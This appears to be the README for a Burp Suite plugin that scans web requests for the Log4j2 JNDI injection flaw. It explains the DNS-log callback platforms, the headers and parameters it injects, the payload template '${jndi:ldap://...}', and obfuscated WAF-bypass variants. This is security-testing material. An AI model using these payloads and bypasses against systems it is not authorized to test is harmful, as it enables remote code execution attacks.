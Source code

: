 # 本工具仅为企业测试漏洞使用，严禁他人使用本工具攻击
本插件基于 https://github.com/f0ng/log4j2burpscanner/ 进行改造，在此感谢f0ng师傅在本项目上做出的贡献。

## 如何食用？
### dns_mothed
本插件支持3个dns平台：
	https://dns.xn--9tr.com/(默认使用)
	http://ceye.io/
	http://www.dnslog.cn/(由于延迟较高不建议使用)
本插件支持自定义dns平台

### log4j2burpscanner.properties
插件第一次运行时，会在burp目录下创建log4j2burpscanner.properties配置文件。其中的各项含义如下：
log_method=0		默认使用第0个dns平台
passivepattern=false		配合burp自带的被动扫描功能，默认关闭
ceyetoken=xxxxxx		ceye.io的用户token
ceyednslog=xxxx.ceye.io	ceye.io的用户dns地址
privatedns=xxxxxx		用户自定义dns地址
isuseUserAgentTokenXff=true	是否测试请求中的UA头/token头
isuseXfflists=false		是否测试Xff(X-forwarded-for)等请求头
isuseAllCookie=true		是否测试cookie
isuseRefererOrigin=false	是否测试Referer
isuseContenttype=false	是否测试Content-type
isuseAccept=false		是否测试useAccept
custom_dnslog_protocol=jndi:ldap:	ayload中"jndi:ladp:"的位置字段，可以自定义"jndi:"的bypass方式,例如输入${lower:j}ndi${::-:}lda${lower:p}:
dnslog_protocol_index=1		payload中"jndi:ladp:"的位置字段的一些默认提供项，设置为0就可使用上一项自定义的custom_dnslog_protocol，设置8为最强bypass
whitelists=*.gov.cn *.edu.cn	不进行测试的host名单
customlists=X-Client-IP X-Requested-With X-Api-Version
			需要额外添加并测试的请求头，用空格分隔
config中有save configuration，load configuration，test dnslog三个按钮，分别用于保存当前设定的properties，加载properties文件和测试当前选择的dns平台是否可用。


### output
插件加载完成后，应当出现如下字样
=============================================
[+]               load successful!           
[+]        log4j2burpscanner v0.22.funny       
[+] https://github.com/f0ng/log4j2burpscanner
[+]                 recode by funnyndk            
=============================================
[+]using log.xn--9tr.com now!
[+]dns address : 7f124f45.dns.1433.eu.org
[+]dns token : r3ewux4bob98
[+]You also can request to    https://log.xn--9tr.com/r3ewux4bob98    to see dnslog
其中dns address为payload中请求的域名，https://log.xn--9tr.com/r3ewux4bob98可以人为查看解析记录

### menu
对请求包右键的菜单栏中，新增了"Send to log4j2 Scanner"选项，点击后将对包进行注入改造并且测试。完成dns询问后，会在log4j2 RCE栏中展示恶意请求和结果等等

### payload
真正的payload格式如下
"${"+jndiparam+dnsldaprmi+"//"+random+"."+chosen_dnslog+"}"
pyload将根据设定和请求类型，注入所有的请求头或GET参数或POST参数中(存在特殊情况无法识别)


##FAQ
Q：为什么安装插件失败，提示java.lang.ClassFoundException: burp.BurpExtender
A：请使用jdk1.8，本插件开发环境为jdk1.8，测试环境为Burp Suite Pro 1.7.31。如果已使用jdk1.8，请更新jdk小版本。开发机版本为jdk1.8.0_291，请至少与之一致，

Q：为什么点了"Send to log4j2 Scanner"选项，log4j2 RCE栏中没有出结果
A：由于网络延迟，扫描可能较慢。或是请求包出现问题，没有相应返回，请检查是否被防火墙等设备封禁。

Q：为什么加载插件显示"load ERROR"
A：一般由于选择的dns平台无法正常访问，也有可能配置文件出现异常。

##dev or update note
/*
* 0.19.funny dev note
* 20220617 dev list
*   add a "dnslog.cn" dnslog platfrom chocie            done!
*   make it to a slowly passively auto-detection
*   more methods to bypass                              update continually...
*   more position in request to inject log4j2 payload   done!
* 20220623 dev list
*   fix the code bug                                    done!
*   test all program fuction                            done!
*/
/*
* 0.20.funny update note
* 20220629 update list 
*   fix the bug - cant send request without response to log4j2 scanner
*   update the feature - log4j2 scanner will show the records even though of which the request doesnt get a response
*/
/*
* 0.21.funny update note
* 20220704 update list 
*   update the feature - change how the plugin modifies custom_dnslog_protocol
* 
*/
/*
* 0.22.funny update note
* 20220801 update list
*   optimize the code - use "Abstract Factory" to dnslog platforms list, make it more easy to maintain current platforms or increase a new one
*   update the feature - add a random bypass mode like j => ${"random_str":"random_str":"random_str"... - j}
*   update the feature - support privatedns mode
*/
